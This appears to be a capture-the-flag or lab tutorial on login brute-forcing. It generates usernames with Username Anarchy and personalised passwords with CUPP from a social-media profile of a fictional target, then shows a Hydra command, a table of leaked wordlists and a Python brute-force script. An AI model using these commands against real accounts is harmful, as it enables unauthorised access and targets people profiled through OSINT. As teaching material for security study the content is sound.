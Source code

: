 # Custom Wordlists
## Username Anarchy
This tool creates all different possibilities of a username from a users first and last name.

This is where `Username Anarchy` shines. It accounts for initials, common substitutions, and more, casting a wider net in your quest to uncover the target's username:
```bash
./username-anarchy -l
```

First, install ruby, and then pull the `Username Anarchy` git to get the script:
```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

Next, execute it with the target's first and last names. This will generate possible username combinations.
```bash
./username-anarchy Jane Smith > jane_smith_usernames.txt
```
Upon inspecting `jane_smith_usernames.txt`, you'll encounter a diverse array of usernames, encompassing basic combinations, initials, etc.
## CUPP (Common User Passwords Profiler) 
CUPP (Common User Passwords Profiler) is a tool designed to create highly personalized password wordlists that leverage the gathered intelligence about your target.

Let's continue our exploration with Jane Smith. We've already employed `Username Anarchy` to generate a list of potential usernames. Now, let's use CUPP to complement this with a targeted password list.

Provide as much information as possible; CUPP's effectiveness hinges on the depth of your intelligence. Discover as many variables about this person through OSINT.

For example, let's say you have put together this profile based on Jane Smith's Facebook postings.
- |Name | Jane Smith|
- |Nickname | Janey|
- |Birthdate | December 11, 1990|
- |Relationship Status | In a relationship with Jim|
- |Partner's Name | Jim (Nickname: Jimbo)|
- |Partner's Birthdate | December 12, 1990|
- |Pet | Spot|
- |Company | AHI|
- |Interests | Hackers, Pizza, Golf, Horses|
- |Favorite Colors | Blue|

CUPP will then take your inputs and create a comprehensive list of potential passwords. This process results in a highly personalized wordlist, significantly more likely to contain Jane's actual password than any generic, off-the-shelf dictionary could ever hope to achieve.

To install CUPP:
```bash
sudo apt install cupp -y
```

Invoke CUPP in interactive mode, CUPP will guide you through a series of questions about your target, enter the following as prompted:
```bash
cupp -i
```
### Password Policies
CUPP has generated many possible passwords for us, but Jane's company, AHI, has a rather odd password policy.

- Minimum Length: 6 characters
- Must Include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)

As we did earlier, we can use grep to filter that password list to match that policy:
```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

Now we can use the two generated lists in Hydra against the target to brute-force the login form:
```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
# Pre-Made Wordlists
## Building and Utilizing Wordlists
Here is a table of some of the more useful wordlists for login brute-forcing:

| Wordlist                                    | Description                                                                                      | Typical Use                                        | Source                                                                                                                           |
| ------------------------------------------- | ------------------------------------------------------------------------------------------------ | -------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| `rockyou.txt`                               | A popular password wordlist containing millions of passwords leaked from the RockYou breach.     | Commonly used for password brute force attacks.    | [RockYou breach dataset](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)                      |
| `top-usernames-shortlist.txt`               | A concise list of the most common usernames.                                                     | Suitable for quick brute force username attempts.  | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)                         |
| `xato-net-10-million-usernames.txt`         | A more extensive list of 10 million usernames.                                                   | Used for thorough username brute forcing.          | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)                   |
| `2023-200_most_used_passwords.txt`          | A list of the 200 most commonly used passwords as of 2023.                                       | Effective for targeting commonly reused passwords. | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt) |
| `Default-Credentials/default-passwords.txt` | A list of default usernames and passwords commonly used in routers, software, and other devices. | Ideal for trying default credentials.              | [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.txt)           |
Below is an example code of a python script using a wordlist and trying every word against the password field of a target:
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
